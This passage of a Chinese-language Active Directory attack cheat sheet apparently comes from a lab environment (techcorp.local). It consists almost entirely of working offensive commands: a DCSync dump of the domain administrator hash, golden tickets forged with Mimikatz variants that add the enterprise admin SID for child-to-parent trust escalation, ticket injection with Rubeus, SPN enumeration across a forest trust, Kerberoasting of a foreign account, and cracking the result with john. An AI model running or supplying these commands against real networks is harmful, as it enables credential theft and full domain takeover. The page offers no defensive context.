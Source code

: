 2. 在新打开的cmd中，使用dcsync拿到techcorp\administrator的哈希
```
SafetyKatz.exe "lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local" "exit"
```


# 域信任滥用

## 子域到父域（Administrator身份）

需要两步，

1. 请求一个Administrator的tgt
```
BetterSafetyKatz.exe "kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:007d02edc39e9e8874a0c6dc373b8d46 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```

2. 根据上面tgt请求一个到父域cifs服务的tgs

```
Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt
```

## 子域到父域（krbtgt身份）

只需要1步
```
BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt" "exit"
```


## 访问外域（SPN，约束委派）

枚举spn(AD)
```
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```

如果这个spn属于外域，请求tgs
```
Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:C:\AD\Tools\euhashes.txt
```

爆破上面的tgs,得到明文密码
```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\euhashes.txt
```

明文密码转成哈希
```
Rubeus.exe hash /password:Qwerty@123 /user:storagesvc /domain:eu.local
```
